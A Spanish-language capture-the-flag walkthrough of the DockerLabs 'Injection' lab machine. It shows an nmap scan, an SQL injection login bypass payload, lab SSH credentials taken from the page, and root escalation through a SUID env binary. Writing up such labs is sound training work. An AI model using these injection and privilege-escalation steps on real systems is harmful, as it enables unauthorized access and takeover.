 # 🖥️ Máquina Injection
- 🔓 Dificultad: **muy fácil**

## 🔌 Comprobamos la conexión:
Primero comprobaremos si tenemos conexión con la máquina Injection:

```bash
ping -c 3 172.17.0.2
```

Este comando enviará solo 3 paquetes ping a la dirección IP designada (172.17.0.2) y luego terminará.

---

## 🔍 Escaneo con Nmap
Ahora haremos un escaneo de puertos con la herramienta 🛠️ Nmap:

```bash
sudo nmap -p- -sS -sC --open -sV --min-rate=5000 -n -vvv -Pn 172.17.0.2 -oN /home/kali/Escritorio/dockerlabs_maquinas/maquinas_muy_faciles/maquina_injection_muyfacil/escaneo_maquina_inyection 
```

🔎 **Explicación de los parámetros del comando:**

- `-p-` Escanea **todos los 65535 puertos TCP**
- `-sS`  Escaneo **SYN sigiloso**
- `-sC` Usa **scripts por defecto**
- `--open` Muestra **solo puertos abiertos**
- `-sV` Detecta la **versión de los servicios**
- `--min-rate=5000` Velocidad mínima de **5000 paquetes/s**
- `-n` Sin resolución DNS
- `-vvv` Modo muy detallado
- `-Pn` Sin ping al host antes de escanear
- `-oN` Guarda el resultado en la ruta especificada

---

## 📊 Resultado del escaneo

```
Host is up, received arp-response (0.0000080s latency).
Scanned at 2025-05-15 21:58:36 EDT for 7s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.52 ((Ubuntu))
...
```

Observamos que los puertos **22 (SSH)** y **80 (HTTP)** están abiertos.

---

## 🌐 Acceso Web

Colocamos la dirección IP `172.17.0.2` en el navegador 🌍. Nos pedirá usuario y contraseña:

![captura-login](https://raw.githubusercontent.com/m4zpan1/DockerLabs_Resolutions/refs/heads/main/injection%201.png)

---

## 🧨 Ataque de inyección SQL

Probamos un ataque de **inyección SQL**:

```sql
'or 1=1-- - 
```

![captura-login](https://raw.githubusercontent.com/m4zpan1/DockerLabs_Resolutions/refs/heads/main/injection%202.png)

🔐 Obtuvimos credenciales:

```
user : dylan
contraseña: KJSDFG789FGSDF78
```

![captura-login](https://raw.githubusercontent.com/m4zpan1/DockerLabs_Resolutions/refs/heads/main/injection%203.png)

---

## 🔐 Conexión SSH

Probamos conectarnos vía SSH:

```bash
ssh dylan@172.17.0.2
# contraseña: KJSDFG789FGSDF78
```

---

# 🧗 Escala de Privilegios

Buscamos binarios con permisos SUID:

```bash
find / -perm -4000 -user root 2>/dev/null
```

📄 Resultado:

```
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
...
/usr/bin/env
...
```

📌 El binario `/usr/bin/env` tiene permisos SUID, lo que puede permitir una **escalada de privilegios**.

---

## 🔓 Escalada usando `env`

```bash
./env /bin/sh -p
```

⚠️ Si aparece el error:

```
-bash: ./env: No such file or directory
```

🔧 La solución es ejecutar el comando desde el directorio correcto:

```bash
cd /usr/bin
./env /bin/sh -p
# whoami
root
```
